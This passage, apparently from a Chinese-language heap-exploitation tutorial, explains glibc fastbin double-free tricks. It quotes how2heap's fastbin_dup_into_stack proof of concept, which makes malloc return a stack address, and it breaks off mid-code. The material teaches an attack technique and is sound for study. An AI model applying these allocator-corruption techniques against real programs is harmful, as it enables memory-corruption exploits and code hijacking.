 ```c
}
```

执行到代码10行时，chunk a 进入fastbin。 

![image-20210312134616539](image-20210312134616539.png)

执行到代码12行时，申请了一块符合large chunk大小的内存，fastbin被初始化。

![image-20210312134851373](image-20210312134851373.png)

执行到代码15行时，我们再次free chunk a ，我们发现fastbin中再次出现chunk a。

![image-20210312135411880](image-20210312135411880.png)

再次申请内存时，我们获得两个指向同一个地方的chunk（同一个值的指针）

#### fastbin_dup_into_stack

由于fastbin检测不严谨导致我们可以伪造一个假fastbin来欺骗glibc。

借用how2heap的fastbin_dup_into_stack c语言代码来描述这个过程：

```c
#include <stdio.h>
#include <stdlib.h>

int main()
{
	fprintf(stderr, "This file extends on fastbin_dup.c by tricking malloc into\n"
	       "returning a pointer to a controlled location (in this case, the stack).\n");

	unsigned long long stack_var;

	fprintf(stderr, "The address we want malloc() to return is %p.\n", 8+(char *)&stack_var);

	fprintf(stderr, "Allocating 3 buffers.\n");
	int *a = malloc(8);
	int *b = malloc(8);
	int *c = malloc(8);

	fprintf(stderr, "1st malloc(8): %p\n", a);
	fprintf(stderr, "2nd malloc(8): %p\n", b);
	fprintf(stderr, "3rd malloc(8): %p\n", c);

	fprintf(stderr, "Freeing the first one...\n");
	free(a);

	fprintf(stderr, "If we free %p again, things will crash because %p is at the top of the free list.\n", a, a);
	// free(a);

	fprintf(stderr, "So, instead, we'll free %p.\n", b);
	free(b);

	fprintf(stderr, "Now, we can free %p again, since it's not the head of the free list.\n", a);
	free(a);

	fprintf(stderr, "Now the free list has [ %p, %p, %p ]. "
		"We'll now carry out our attack by modifying data at %p.\n", a, b, a, a);
	unsigned long long *d = malloc(8);

	fprintf(stderr, "1st malloc(8): %p\n", d);
	fprintf(stderr, "2nd malloc(8): %p\n", malloc(8));
	fprintf(stderr, "Now the free list has [ %p ].\n", a);
	fprintf(stderr, "Now, we have access to %p while it remains at the head of the free list.\n"
```